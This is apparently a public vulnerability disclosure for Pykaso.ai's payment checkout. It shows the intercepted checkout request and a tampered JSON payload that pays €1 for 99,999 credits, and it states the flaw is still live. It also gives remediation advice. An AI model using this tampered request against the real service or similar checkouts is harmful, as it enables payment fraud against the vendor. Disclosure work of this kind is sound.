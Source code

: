 # 0-Day Vulnerability Disclosure: Critical Logic Flaw in Pykaso.ai Payment System

## Summary

While analyzing Pykaso.ai, I noticed abnormal credit balances in a friend's account. This prompted a deeper investigation into the platform’s payment logic. Using a local MITM proxy, I discovered a severe client-side validation flaw that allows users to manipulate payment data and obtain premium service credits for a fraction of the actual cost.

This document outlines the technical details of the vulnerability, demonstrates the impact, and provides evidence of the exploit. The issue has been responsibly disclosed to the Pykaso team and remains active at the time of writing.

---

## Technical Details

### Step 1: Identifying Suspicious Behavior

A friend’s Pykaso.ai account had a significantly high number of credits despite being on a lower-tier plan. This led to suspicions of an unintended vulnerability.

### Step 2: Sniffing the Payment Endpoint

Using `mitmproxy`, I intercepted the network traffic and located the following endpoint triggered during checkout:

```
https://app.pykaso.ai/pricing/checkout/basic-50
```

The POST request payload looked like this:

```json
[
  {
    "amount": 6,
    "productAmount": 6,
    "userId": "X",
    "promoCodeId": "$undefined",
    "email": "example@yin.sh",
    "country": "DE"
  }
]
```

### Step 3: Modifying the Payload

I adjusted the `amount` and `productAmount` fields:

```json
[
  {
    "amount": 1,
    "productAmount": 99999,
    "userId": "null",
    "promoCodeId": "$undefined",
    "email": "example@yin.sh",
    "country": "DE"
  }
]
```

This led to a successful response from the server:

```json
0: {"a": "$@1", "f": "", "b": "null"}
1: "https://checkout.dodopayments.com/null"
```

The URL generated an invoice on the DodoPayments gateway for a payment of only **€1**.

### Step 4: Confirming the Exploit

After paying the €1 invoice, I returned to Pykaso.ai. My account was credited with **99,999+ credits**, equivalent to services worth thousands of euros.

The credits were fully usable and functioned as if legitimately purchased through a normal checkout flow.

---

## Evidence

Screenshots have been captured to support this vulnerability report, including:

- POST Request
- Invoice 
- Account dashboard showing inflated credits after payment


![ezgif-4186a00915f7c2](https://github.com/user-attachments/assets/8be7e244-7ce7-4138-a1c3-101cbe66600a)

![ezgif-5462b69fdd67cf](https://github.com/user-attachments/assets/d60ff193-a99f-4685-9e14-2d2522154959)
![transc](https://github.com/user-attachments/assets/f9151d2b-a866-46a2-8230-59b093fcebcd)


---

## Impact

- **Unlimited credit generation:** Any user can gain access to high-tier services by paying minimal amounts.
- **Server-side validation bypass:** The payment system fully trusts client-side inputs for pricing.
- **Potential financial loss:** This exploit allows massive resource abuse at negligible cost.

---

## Remediation Recommendations

1. Validate all transaction data (amount, productAmount) strictly on the server.
2. Use signed tokens to protect integrity of client-side data.
3. Disallow credit or product multipliers from being passed in client-side JSON.
4. Implement server-side sanity checks to flag suspicious transactions.
5. Monitor invoice-generation frequency and volume per user account.

---

## Responsible Disclosure

I have contacted the Pykaso.ai team regarding this vulnerability. The exploit remains live at the time of publication. I will update this report upon receiving an official response or patch confirmation.

If you're part of the Pykaso security team, please reach out for a full disclosure package, including traffic logs, headers, and video proof of concept.

---

## Contact

**Researcher:** Detective  
**Email:** 0day@yin.sh 
**Report Copy:** https://yin.sh/repos/projects.php?folder=pykaso.ai-0day&file=README.md

---

## Legal Disclaimer

This report is intended solely for educational and responsible disclosure purposes. No data was sold, leaked, or misused. The vulnerability was reported in good faith to improve the platform’s security posture.

Unauthorized exploitation of vulnerabilities is illegal and unethical. Always follow responsible disclosure best practices.
